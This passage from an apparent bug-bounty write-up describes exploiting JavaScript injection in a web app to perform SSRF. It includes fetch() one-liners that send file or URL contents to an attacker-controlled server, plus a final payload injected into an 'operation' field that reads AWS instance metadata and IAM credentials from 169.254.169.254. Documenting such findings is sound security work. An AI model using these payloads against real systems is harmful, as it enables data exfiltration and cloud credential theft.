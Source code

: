 I ended with the following code which works pretty well:
```js
fetch('https://...').then(res=>res.text()).then((r)=>fetch('https://poc.myserver.com/?r='+r));
```

Of course, Origin policy applies.


## SSRF for the win

I firstly tried to read local files:
```js
fetch('file:///etc/issue').then(res=>res.text()).then((r)=>fetch('https://poc.myserver.com/?r='+r));
```

But the response (`r` parameter) in my Apache log file was empty.

Since I found some S3 buckets related to ArticMonkey (`articmonkey-xxx`), I thought that this company might also use AWS servers for their webapp (which was also confirmed by the header in some responses `x-cache: Hit from cloudfront`).
I quickly jumped on the list of the most common [SSRF URL for Cloud Instances](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF%20injection).

And got a nice hit when I tried to access the metadatas of the instance.
<a href="/images/ssrf-aws-takeover-burpsuite.png" title="aws takeover through ssrf in javascript" target="_blank"><img src="/images/ssrf-aws-takeover-burpsuite.png" alt="aws takeover through ssrf in javascript" /></a>

Decoded output is the directory listing returned:
```none
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
hostname
iam/
...
```

Final payload:
```none
{...REDACTED...,"operation":"Union('1';'2;fetch(\"http://169.254.169.254/latest/meta-data/\").then(res=>res.text()).then((r)=>fetch(\"https://poc.myserver.com/?r=\"+r));';'3')"}
```

Since I didn't know anything about AWS metadatas, because it was my first time in da place.
I took time to explore the directories and all files at my disposition. As you will read everywhere, the most insteresting one is `http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE>`.
Which returned:
```json
{
  "Code":"Success",
  "Type":"AWS-HMAC",
  "AccessKeyId":"...REDACTED...",
  "SecretAccessKey":"...REDACTED...",
  "Token":"...REDACTED...",
  "Expiration":"2018-09-06T19:24:38Z",
  "LastUpdated":"2018-09-06T19:09:38Z"
}
```

